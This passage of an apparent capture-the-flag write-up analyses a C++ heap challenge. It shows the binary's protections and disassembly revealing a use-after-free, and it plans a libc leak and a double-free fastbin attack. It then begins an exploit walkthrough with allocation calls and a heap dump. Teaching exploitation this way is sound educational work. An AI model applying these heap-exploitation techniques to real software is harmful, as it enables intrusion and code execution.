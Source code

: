 ### _Binary Review_



```makefile
RELRO           STACK CANARY      NX            PIE
Partial RELRO   No canary found   NX enabled    No PIE
```

```makefile

[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME

```

We can allocate chunks, free them, edit them and dump their content. There isn't much else to say so let's dive in the assembly for some bug hunting.


### _Reverse Engineering_

The binary was in C++ (the disassembly of C++ isn't the same as C and sometimes can be scary too) for the most part but the bug itself wasn't related to that fact. Instead of messing around with C++'s assembly line-by-line, I spotted the functions that allocate / free chunks and checked for heap-related bugs.

```asm
              [...]
00401621  mov     rsi, qword [rbp-0x80]
00401625  movsxd  rdi, dword [rsi]
00401628  mov     rdi, qword [rdi*8+0x605310]
00401630  mov     qword [rbp-0xa0], rax
00401637  call    free
              [...]
```
This is the meat of the binary. We've got a global array of malloc'd pointers at `0x605310` and and `free` being called on them. However, those pointers aren't being zeroed out by the program, meaning we abuse UAF to leak libc pointers and we can extend this UAF and turn into a double-free bug in order to perform a fastbin attack (will explain it in detail later on, no worries).

Although the binary is overall messy, we can get a pretty accurate idea of what's up with its functionality just with the above lines of assembly. Let's develop a visual image of how the binary actually handles the heap while stepping through my exploit.


### _Exploit Visualization_

```python
alloc(0x80, 'A'*10) # chunk 1
alloc(0x80, 'B'*10) # chunk 2
```

```makefile
0x617c10:   0x0000000000000000  0x0000000000000091 <-- chunk 0
0x617c20:   0x4141414141414141  0x00000000000a4141
0x617c30:   0x0000000000000000  0x0000000000000000
0x617c40:   0x0000000000000000  0x0000000000000000
0x617c50:   0x0000000000000000  0x0000000000000000
0x617c60:   0x0000000000000000  0x0000000000000000
0x617c70:   0x0000000000000000  0x0000000000000000
0x617c80:   0x0000000000000000  0x0000000000000000
0x617c90:   0x0000000000000000  0x0000000000000000
0x617ca0:   0x0000000000000000  0x0000000000000091 <-- chunk 1
0x617cb0:   0x4242424242424242  0x00000000000a4242
0x617cc0:   0x0000000000000000  0x0000000000000000
0x617cd0:   0x0000000000000000  0x0000000000000000
```
